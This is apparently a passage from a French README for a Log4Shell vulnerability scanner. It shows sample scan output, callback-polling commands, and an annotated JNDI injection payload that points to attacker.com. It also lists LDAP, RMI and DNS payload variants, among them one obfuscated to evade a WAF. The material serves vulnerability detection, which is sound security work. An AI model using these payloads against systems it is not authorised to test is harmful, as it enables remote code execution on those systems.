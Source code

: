 ```
[*] Test de l'URL : https://target.com/api/login
  - Test des paramètres GET...
  - Test des en-têtes HTTP...
  - Test du corps POST (JSON)...

[*] Scan terminé.
[!] IMPORTANT: Veuillez vérifier votre service de callback (xxxxx.interact.sh) pour toute interaction DNS ou HTTP.
    Si une interaction est détectée, le site est probablement vulnérable.
```

### Vérification des interactions
```bash
# Vérifier interact.sh
curl https://interact.sh/poll/xxxxx

# Vérifier dans Burp Collaborator
# Aller dans l'onglet Collaborator et vérifier les interactions
```

## Payload JNDI expliqué

### Structure du payload
```
${jndi:ldap://attacker.com/exploit}
│  │    │                      │
│  │    │                      └─ Chemin de l'exploit
│  │    └─ Serveur LDAP malveillant
│  └─ Protocole JNDI
└─ Délimiteur Log4j
```

### Variantes de payload
```python
# LDAP
"${jndi:ldap://callback.com/a}"

# RMI
"${jndi:rmi://callback.com/a}"

# DNS (pour détection uniquement)
"${jndi:dns://callback.com/a}"

# Avec contournement de WAF
"${jndi:ldap://callback.com/a}"
"${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://callback.com/a}"
```

## Détection et validation
